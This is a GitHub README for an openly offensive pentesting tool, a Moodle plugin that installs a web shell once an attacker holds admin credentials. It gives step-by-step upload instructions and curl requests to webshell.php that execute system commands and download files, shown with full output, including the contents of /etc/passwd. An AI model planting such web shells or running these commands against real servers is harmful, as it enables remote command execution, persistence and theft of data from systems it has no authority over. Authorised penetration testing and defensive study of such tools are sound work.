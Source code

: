 # Moodle webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a Moodle instance.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/Moodle-plugin-webshell">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for Moodle.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the Moodle instance.

### Step 1.1: Upload the webshell plugin

Go to "Site administration --> Install plugins" page, at http://127.0.0.1:10080/admin/tool/installaddon/index.php, and click on "_Choose a file_":

![](./.github/upload_and_install.png)

### Step 1.2: Plugin successfully uploaded

Press the buttons on the various pages until you get a message stating that your plugin is successfully uploaded:

![](./.github/plugin_successfully_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169657310-dee340d6-19c0-4192-bcd1-ac8b9b29b731.mp4

## References
 - https://docs.moodle.org/en/Developer_documentation
 - https://docs.moodle.org/400/en/Development:Developer_documentation#Make_a_new_plugin
 - https://docs.moodle.org/dev/Moodle_App_Plugins_Development_Guide
 - https://docs.moodle.org/dev/Plugin_files